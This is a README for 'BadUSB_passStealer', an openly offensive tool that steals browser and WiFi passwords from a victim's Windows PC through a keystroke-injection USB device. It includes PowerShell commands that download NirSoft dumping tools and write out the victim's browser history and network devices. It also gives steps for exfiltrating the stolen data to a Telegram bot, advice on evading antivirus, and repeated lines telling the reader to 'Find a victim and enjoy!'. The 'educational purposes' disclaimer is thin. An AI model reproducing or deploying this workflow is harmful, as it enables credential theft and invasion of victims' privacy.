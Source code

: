 # BadUSB_passStealer

## Warning ⚠️
Everything in this repository is **strictly** for educational purposes. **I am not responsible** for any stolen data. **You are responsible** for your actions when using this script for **BadUSB**.

## About ℹ️
This **script** allows you to steal the following **information**:
* Browser **passwords** (Chrome, Firefox, Opera);
* **WiFi** passwords;
* You can add this information (browser history from the last 7 days and a list of all devices connected to the victim's network) by including the following commands to [ps.ps1](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/upload/ps.ps1):
  ```
    # These commands should be placed after downloading other required files
    Invoke-WebRequest https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/other_files/BrowsingHistoryView.exe?raw=true -OutFile BrowsingHistoryView.exe # Download the NirSoft tool for browser history
    Invoke-WebRequest https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/other_files/WNetWatcher.exe?raw=true -OutFile WNetWatcher.exe # Download the NirSoft tool for connected devices

    # These commands should be placed after the other data exfiltration commands
    .\WNetWatcher.exe /stext $env:USERNAME-$(get-date -f yyyy-MM-dd)_connected_devices.txt # Create the file for connected devices
    .\BrowsingHistoryView.exe /VisitTimeFilterType 3 7 /stext $env:USERNAME-$(get-date -f yyyy-MM-dd)_history.txt # Create the file for browser history
  ```

### Attention Arduino users!
I stopped upgrading .ino scripts. If you want, you can convert Ducky Scripts [here](https://duckify.huhn.me/).

### NB #1 (for Arduino BadUSB)
Sometimes, you will see something like this:
```cpp
Keyboard.press(KEY_LEFT_CTRL);
Keyboard.press(KEY_LEFT_ALT);
Keyboard.press(173);
Keyboard.releaseAll();
```
This is used to type characters like "@" and "\\". However, it depends on the computer's keyboard layout, so adapt these characters using this [site](https://www.csee.umbc.edu/portal/help/theory/ascii.txt) and the sequence you actually use to type them. Alternatively, switch the keyboard layout to French.

### US Layout
For a US layout, use the following replacements:
For "\\":
```
Keyboard.press(92);
Keyboard.releaseAll();
```
For "@":
```
Keyboard.press(64);
Keyboard.releaseAll();
```

### NB #2
You can customize the **delay** according to how fast you plug in the **BadUSB**.

### NB #3
When you plug the BadUSB into a PC, you must wait for the Caps Lock to flash before unplugging it.

# Getting Started ✔️

## Requirements
1. A **BadUSB**.
2. Install **Arduino software** [here](https://www.arduino.cc/en/software) (if using an Arduino-based BadUSB).
3. A Telegram account.
4. A victim using **Windows 10/11** on their PC.

# Setting up a Telegram bot to upload files

## Create a Telegram bot
1. Open your browser, go to [Telegram Web](https://web.telegram.org/), and log in.
2. Search for **@BotFather** in the Telegram search bar.
3. Click **Start** to begin a conversation with **@BotFather**.
4. Send `/newbot` to **@BotFather**.
5. Send your bot’s name to **@BotFather**.
6. Send your bot’s username to **@BotFather**.
7. **@BotFather** will respond:
   > Done! Congratulations on your new bot. You will find it at t.me/BOT_USERNAME. You can now add a description, about section, and profile picture for your bot. See /help for a list of commands.
   > Use this token to access the HTTP API:
   > **API_ACCESS_TOKEN**
   > For a description of the Bot API, see this page: https://core.telegram.org/bots/api
8. Now start a conversation with your bot by clicking on **t.me/BOT_USERNAME** in **@BotFather** and clicking **Start**. Your bot will now appear in your chat list.

## Get a Telegram API access token
Your Telegram API access token is provided in **@BotFather**'s response.

## Get your Telegram chat ID
1. Open your browser and replace `API_ACCESS_TOKEN` in the following URL:

    ```
    https://api.telegram.org/bot<API_ACCESS_TOKEN>/getUpdates?offset=0
    ```
2. Send any message to your bot in Telegram.
3. Refresh the API tab.
4. Identify your numerical chat ID in the chat JSON object. Example:
  
    ```
    "message":{"message_id":2,"from":{"id":123456789,"is_bot":false,"first_name":"user","language_code":"en"},"chat":{"id":123456789,"first_name":"user","type":"private"},"date":1696077493,"text":"Hi"}}
    ```
    Your chat ID is **123456789**.

# Installation for Rubber Ducky, Malduino W, and Flipper Zero
1. Download this repository.

    * **Linux:**
      ```
      git clone https://github.com/tuconnaisyouknow/BadUSB_passStealer
      cd BadUSB_passStealer
      ```
    
    * **Windows:** Click the green button at the top right of the main page, then click "Download Zip" and extract the zip file.

2. Replace **\<TOKEN\>** and **\<CHAT_ID\>** in [ps.ps1](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/upload/ps.ps1).

3. Upload your `ps.ps1` file to obtain a downloadable link.

4. Replace **LINK** in [BadUSB_passStealer_upload.txt](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/upload/BadUSB_passStealer_upload.txt) with the `ps.ps1` link.

5. Place the or `.txt` file in your **BadUSB**.

6. Find a victim and enjoy!

# Installation for Malduino 2 BadUSB (with mass storage)
### **Warning** ⚠️: This version is deprecated and will no longer be updated!

1. Download this repository.

    * **Linux:**
      ```
      git clone https://github.com/tuconnaisyouknow/BadUSB_passStealer
      cd BadUSB_passStealer
      ```
    
    * **Windows:** Click the green button at the top right of the main page, then click "Download Zip" and extract the zip file.

2. Upgrade the Malduino firmware following these [instructions](https://docs.maltronics.com/devices/malduino-2/firmware-upgrade).

3. Modify `preferences.json` in your MMS by setting:
    ```
    "enable_msc": true,
    ```

4. In your MMS root directory, create the following directories: `dump/` and `passStealer/`.

5. Replace **TOKEN** and **CHAT_ID** in [telegram_uploader.py](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/upload/telegram_uploader.py).

6. Convert `telegram_uploader.py` into an executable:
    ```
    pip install pyinstaller
    pyinstaller --onefile -w telegram_uploader.py
    ```

7. Download 7-Zip Extra: standalone console version, 7z DLL, Plugin for Far Manager [here](https://www.7-zip.org/download.html).

8. Copy the necessary files into your MMS directories as specified in the repository.

9. Find a victim and enjoy!

**Explanation:** Nirsoft Tools are encrypted to avoid antivirus detection, so we use 7-Zip to extract them via command line. The `dump` folder stores all stolen information.

# Nirsoft tools 🧰
You can download Nirsoft tools here:
* [WebBrowserPassView.exe](https://www.nirsoft.net/protected_downloads/passreccommandline.zip) (User: `download` ; Password: `nirsoft123!`)
* [WNetWatcher.exe](https://www.nirsoft.net/utils/wireless_network_watcher.html)
* [BrowsingHistoryView.exe](https://www.nirsoft.net/utils/browsing_history_view.html)
* [WirelessKeyView.exe](https://www.nirsoft.net/utils/wireless_key.html)

